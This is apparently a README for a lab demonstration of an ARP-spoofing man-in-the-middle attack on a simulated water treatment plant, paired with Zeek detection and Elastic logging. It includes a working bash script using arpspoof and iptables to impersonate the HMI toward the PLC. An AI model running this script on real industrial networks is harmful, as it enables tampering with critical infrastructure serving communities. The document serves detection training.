


# Water Facility Man-in-the-Middle (MitM) Demo
This attack targets a water treatment site supplying the local community. Pumps are run by a PLC that also monitors flow, pressure, and water quality. A basic HMI panel is used to control the pump and display the process state.



## 2. Scenario - Eastwater Facilty  
This scenario uses a simulation of the Eastwater Facilty from the Labshock testbed using docker containers. The environment was reconfigured to place a malicious actor on the same network as the HMI. This container includes Kali Linux and arp spoofing tools, including `dsniff`. Below is the modified network configuration.

| Host / Role | Container / Interface | Subnet | IP Address |
| :--- | :--- | :--- | :--- |
| **Router (HMI Side)** | `eth1` (`lab_l2_network_hmi`) | `192.168.2.16/28` | `192.168.2.18` |
| **Router (PLC Side)** | `eth0` (`lab_l2_network`) | `192.168.2.0/28` | `192.168.2.2` |
| **Pentest Container** | `lab-pentest-1` (`eth1`) | `192.168.2.16/28` | `192.168.2.19` |
| **Target HMI** | HMI Container | `192.168.2.16/28` | `192.168.2.20` |
| **Target PLC** | PLC Container | `192.168.2.0/28` | `192.168.2.10` |

## 3. Zeek Detection Script

The zeek script `detect-arp.zeek` processes Layer 2 and Layer 3 traffic to detect the ARP spoof used in the Man-in-the-Middle (MitM) attack in this scenario. Zeek parse ARP replies to detect IP addresses where the associated MAC address changed.

## 4. MitM Setup Script 

The script `mitm.sh` below routes traffic to the PLC and impersonates the HMI (`192.168.2.20`) by forging ARP packets to conduct a MitM attack. 

```bash
cat << 'EOF' > /home/pentest/mitm.sh
#!/bin/bash
sudo ip route replace 192.168.2.0/28 via 192.168.2.18 dev eth1
sudo iptables -t nat -C POSTROUTING -o eth1 -d 192.168.2.0/28 -j SNAT --to-source 192.168.2.20 2>/dev/null || \
sudo iptables -t nat -A POSTROUTING -o eth1 -d 192.168.2.0/28 -j SNAT --to-source 192.168.2.20
sudo arpspoof -i eth1 -t 192.168.2.20 -r 192.168.2.18
EOF
chmod +x /home/pentest/mitm.sh
```

## 5. Network Intrusion Detection System

The attack was captured on the NIDS sensor, processed by zeek, and shipped to the Elastic NIDS dashboard. Below are the commands to process the pcap of the traffic with zeek, including arpspoof detection.
First run start `./start_ids.sh` to start up filebeat, if it's not running.

Run the zeek arp spoof script `detect-arp.zeek`. Use the temp folder to create the new notice.log and append to zeek logs for shipping to Elastic.
```bash
mkdir -p ./zeek_logs/temp 
zeek -C -r ./mitm.pcap ./detect-arp.zeek Log::default_logdir="./zeek_logs/temp"
mv ./zeek_logs/temp/notice.log ./zeek_logs/notice_mitm.log
```

**Elastic NIDS**  
